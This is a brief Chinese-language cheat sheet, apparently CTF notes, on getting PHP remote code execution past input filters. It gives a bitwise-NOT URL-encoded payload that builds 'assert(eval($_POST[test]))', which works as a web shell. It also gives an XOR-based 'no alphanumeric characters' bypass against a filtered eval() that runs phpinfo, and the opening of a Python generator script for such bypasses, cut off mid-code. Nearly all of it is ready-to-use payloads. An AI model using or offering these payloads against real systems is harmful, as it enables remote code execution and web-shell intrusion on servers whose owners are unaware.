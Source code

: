 ```
$a='assert';
$b=urlencode(~$a);
echo $b;

echo "里：";
$c='(eval($_POST[test]))';
$d=urlencode(~$c);
echo $d;
 ?>
```
```
外：%9E%8C%8C%9A%8D%8B里：%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%8B%9A%8C%8B%A2%D6%D6

?code=assert(eval($_POST[test]));

?code=(~%9E%8C%8C%9A%8D%8B)(~%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%8B%9A%8C%8B%A2%D6%D6);
```


^
^
## **无字符RCE，不可打印绕过**
```
$hhh = @$_GET['_'];

if ( preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', $hhh) )
    die('Try something else!');

eval($hhh);
```
绕过
```
?_=${%80%80%80%80^%df%c7%c5%d4}{%80}();&%80=phpinfo
phpinfo为执行的代码。
```

^
## **绕过生成综合脚本**
```
from typing import final

import string



def realHex(num):

    if num <16:

        return "%0"+hex(num)[2:]

    else:

        return '%'+hex(num)[2:]

pattern=input("请输入正则过滤式,没有则直接回车跳过\n")

#正则表达式修饰符re.I大小写不敏感,re.M多行匹配,影响^和$,re.S使得.匹配包括换行在内的所有字符,re.U根据Unicode字符集解析字符,影响\w,\W,\b,\B

#建议回车跳过,这个功能很逊

if pattern != "":

```
